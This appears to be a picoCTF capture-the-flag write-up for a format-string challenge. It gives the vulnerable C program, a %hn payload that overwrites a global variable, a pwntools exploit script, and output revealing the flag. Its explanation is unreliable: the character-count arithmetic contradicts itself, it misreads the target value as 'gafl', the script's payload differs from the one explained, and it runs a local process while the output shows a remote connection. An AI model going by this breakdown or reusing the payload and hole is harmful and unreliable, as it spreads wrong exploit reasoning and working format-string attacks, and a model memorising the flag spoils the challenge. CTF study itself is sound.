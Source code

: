 # FORMAT STRING 2 WRITE UP

### Source code
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

In the `printf(buf)` line, a format string vulnerability is apparent. By exploiting this vulnerability, we can use the following payload to change the value of `sus` to `0x67616c66`.

### **Payload:**

```python
payload = b'%26464d,%20$hn%1281dAAAA%19$hnx,%40$llx,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00'
```

This payload is constructed to write two parts of the value `0x67616c66` into the `sus` variable, which is located at two consecutive memory addresses (`0x404060` and `0x404062`).

### **Payload Breakdown:**

1. **`%26464d,%20$hn`**:
   - `%26464d`:
     - This prints `26464` characters before the next part of the format string is evaluated. This number is chosen because we want to write the value `0x6761` (in decimal `26465`) into memory.
     - `d` is used to generate an output string with a length of `26464` characters.
   - `%20$hn`:
     - `hn` writes two bytes of the number of characters printed (`26464`) to the memory address specified by the 20th argument on the stack.
     - This address is `0x404060`, which corresponds to the first part of `sus`.

2. **`%1281dAAAA%19$hn`**:
   - `%1281d`:
     - This prints `1281` additional characters, making the total number of printed characters `26464 + 1281 = 27745`.
     - This number is chosen because we want to reach a total of `27750` characters (matching the value `0x6c66` in decimal).
   - `AAAA`:
     - This is 4-byte padding to maintain alignment in the stack data.
   - `%19$hn`:
     - `hn` writes two bytes of the total number of characters printed (`27745`) to the memory address specified by the 19th argument on the stack.
     - This address is `0x404062`, which corresponds to the second part of `sus`.

3. **`x,%40$llx,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00`**:
   - `x`:
     - This might be an error or irrelevant to the main exploit, but generally, `x` does nothing.
   - `,%40$llx`:
     - This prints the value from the address specified in the stack, but it’s not relevant to this exploit.
   - `\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00`:
     - These are the two memory addresses in little-endian format.
     - `\x60\x40\x40\x00\x00\x00\x00\x00` is the first address (`0x404060`).
     - `\x62\x40\x40\x00\x00\x00\x00\x00` is the second address (`0x404062`).

### **How the Payload Works:**

1. **Step One**:
   - The payload starts by printing `26464` characters using `%26464d`.
   - Then, `26464` is printed, making the 20th stack argument ready to be modified.
   - `%20$hn` writes the value `0x6761` (the printed characters plus 1 since `hn` writes 2 bytes) to the address `0x404060`.

2. **Step Two**:
   - The payload then prints an additional `1281` characters using `%1281d`.
   - Now, the total characters printed are `26464 + 1281 = 27745`.
   - `AAAA` is used as padding to maintain alignment in the stack.
   - `%19$hn` then writes the value `0x6c66` to the address `0x404062`.

3. **Final Result**:
   - The value `0x6761` is written to the address `0x404060`.
   - The value `0x6c66` is written to the address `0x404062`.
   - If the payload works correctly, the `sus` variable is now changed from `0x21737573` to `0x67616c66` (which in ASCII is 'gafl'), allowing the exploit to succeed and the program to print the flag.

### Exploit
```python
from pwn import *

io = process('./vuln')

payload = b'%26464d,%20$hn%1281dAAAA%19$hnp,%40$lls,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00'
# r.sendline(b'%26464d,%20$hn%1281dAAAA%19$hnx,%22$llx,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00DEFGHIJKLMNOPQRSTUVWXYZ')
io.sendline(payload)
io.interactive()
```

```bash=
python3 solve.py

[+] Opening connection to rhea.picoctf.net on port 63309: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input:

I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}

[*] Got EOF while reading in interactive
```

This shows how the exploit works to manipulate the `sus` variable and obtain the flag.
